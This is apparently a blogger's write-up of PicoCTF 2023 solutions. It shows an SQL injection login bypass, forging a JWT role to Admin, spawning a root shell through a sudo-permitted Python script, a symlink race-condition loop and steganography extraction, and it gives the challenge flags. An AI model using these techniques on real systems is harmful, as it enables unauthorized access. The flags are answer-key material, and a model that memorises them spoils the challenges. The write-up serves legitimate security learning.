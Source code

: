 ```yaml
---
title: PicoCTF 2023
author: 0
date: 2023-03-28 16:00:00 +0800
categories: [picoctf, ctf]
tags: [linux-jailbreak, sql-injection, jwt, race-condition, web, forensics, binary-exploitation]
render_with_liquid: false
---
```


## Web - findme
View the request through Burp
picoCTF{proxies_all_the_way_be716d8e}

## Web - More SQL
Use burp for this one, otherwise you miss the flag.
In the login request use `x' OR 1=1 --' to do an authentication bypass. The flag gets printed in the response.

```
POST / HTTP/1.1
Host: XXX
User-Agent: XXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: XXX
Connection: close
Referer: XXX
Cookie: XXX
Upgrade-Insecure-Requests: 1

username=admin&password=x' or 1=1 --
```

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}

## Web - Java Code Analysis

### /books
```json
{"type":"SUCCESS","payload":[{"id":3,"title":"Little Brother","desc":"Little Brother is a novel by Cory Doctorow, published by Tor Books. It was released on April 29, 2008. The novel is about four teenagers in San Francisco who, in the aftermath of a terrorist attack on the San Francisco–Oakland Bay Bridge and BART system, defend themselves against the Department of Homeland Security's attacks on the Bill of Rights.","role":"Free"},{"id":4,"title":"The Future of the Internet and How to Stop It","desc":"The Future of the Internet and How to Stop It is a book published in 2008 by Yale University Press and authored by Jonathan Zittrain. The book discusses several legal issues regarding the Internet.","role":"Premium"},{"id":5,"title":"Flag","desc":"You need to have Admin role to access this special book!","role":"Admin"}]}
``` 

### SecretGenerator
    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

use jwt.io to decode the `authorization` header in the request to get the secret pdf `GET /base/books/pdf/5 HTTP/1.1`

change role, userid and email to admin
```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1679686364,
  "iat": 1679081564,
  "userId": 2,
  "email": "admin"
}
``` 

picoCTF{w34k_jwt_n0t_g00d_d7c2e335}

## Forensics - hideme
You get an image called flag.png
Running binwalk shows us that there is an image hidden in this flag.png
binwalk -e flag.png extracts secret/flag.png

Flag: picoCTF{Hiddinng_An_imag3within@n_ima9e_85e04ab8} 

## Forensics - PcapPoisining
You get a pcap file
In Wireshark, search by Packet Bytes, Regular expression, `picoCTF{.*}`

## Forensics - Who is it
You get an .eml file, open the .eml file with a text editor. Find the IP address of the mail server this mail has been sent from:
`Received: from mail.onionmail.org (mail.onionmail.org. [173.249.33.206])`

Search on whois.com for this IP.
```
person:         Wilhelm Zwalina
address:        Contabo GmbH
address:        Aschauer Str. 32a
address:        81549 Muenchen
phone:          +49 89 21268372
fax-no:         +49 89 21665862
nic-hdl:        MH7476-RIPE
mnt-by:         MNT-CONTABO
```

picoCTF{WilhelmZwalina}

## Forensics - FindandOpen
Analysing the pcap file, in the ethernet traffic we find a base64 encoded string ´VGhpcyBpcyB0aGUgc2VjcmV0OiBwaWNvQ1RGe1IzNERJTkdfTE9LZF8=´. This gives the password for the zip with the full flag.

picoCTF{R34DING_LOKd_fil56_succ3ss_cbf2ebf6}

## General - Chrono
`picoplayer@challenge:~$ cat /etc/crontab`
picoCTF{Sch3DUL7NG_T45K3_L1NUX_d83baed1}

## General - useless
`picoplayer@challenge:~$ man useless`
picoCTF{us3l3ss_ch4ll3ng3_3xpl0it3d_7065}

## Binary Exploitation - hijack
Python script in the home directory has root permissions, we use it to spawn a root shell and get the flag.
`sudo -l`
 ```bash
 Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

Modify `.server.py` script to spawn a shell `os.system("/bin/sh")`

Execute the python script as root: `sudo -u root /usr/bin/python3 /home/picoctf/.server.py`

```bash
Spawning root shell...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -lah
total 12K
drwx------ 1 root root   23 Mar 16 02:09 .
drwxr-xr-x 1 root root   51 Mar 27 05:46 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Mar 16 02:09 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_0083cb0b}
```
Flag: picoCTF{pYth0nn_libraryH!j@CK!n9_0083cb0b}

## General - Specialer
A restricted shell is spawn, after some trial and error we find out only `echo` and some basic syntax is allowed.

We can for loop over the directories to get the listing of files and directories, as `ls` isn't allowed, with `for entry in "directory_here"/*; do echo "$entry"; done`
```bash
Specialer$ for entry in "/home/ctf-player/"/*; do echo "$entry"; done
/home/ctf-player//abra
/home/ctf-player//ala
/home/ctf-player//echo
/home/ctf-player//sim
```

There are a bunch of txt files in these directories, while going through them and reading the content via `echo "$(<file_here.txt)"`. We find the flag:
```bash
Specialer$ echo "$(</home/ctf-player/ala/kazam.txt)"
return 0 picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_c42168d9}
```

## Forensics - MSB
https://github.com/Pulho/sigBits/blob/master/sigBits.py
```bash
`python3 sigBits.py --type=Msb  Ninja-and-Prince-Genji-Ukiyoe-Utagawa-Kunisada.flag.png`
```

Output
```
has done what was commanded himin going to present himself before my lady Dulcinea del Toboso, he willhave done all that he was bound to do, and does not deserve furtherpunishment unless he commits some new offence."picoCTF{15_y0ur_que57_qu1x071c_0r_h3r01c_06326238}"Thou hast said well and hit the point," answered Don Quixote; and so Irecall the oath in so far 
```

## Binary - Tic-Tac
This challenge is about race conditions. The cpp program only can read files if they are the owner of the user executing this program. 
Create an empty file that the user owns

`touch myfile`

Setup a look that will iterate between creating a symlink to the flag.txt and our owned file. We hit the sweet spot where:
- The `textreader` perfoms the user check, our symlink `link` is linked to our owned file `myfile`
- Afterwards when the `textreader` reads the file, our symlink `link` is linked to the root owned file `flag.txt`
We let this script run in the background (`&`)

`while true; do ln -sf flag.txt link; ln -sf myfile link; done &`

Setup a look to constantly try to read our symlink `link`

```bash
ctf-player@pico-chall$ while true; do ./txtreader link; done
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_5748402c}
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
```
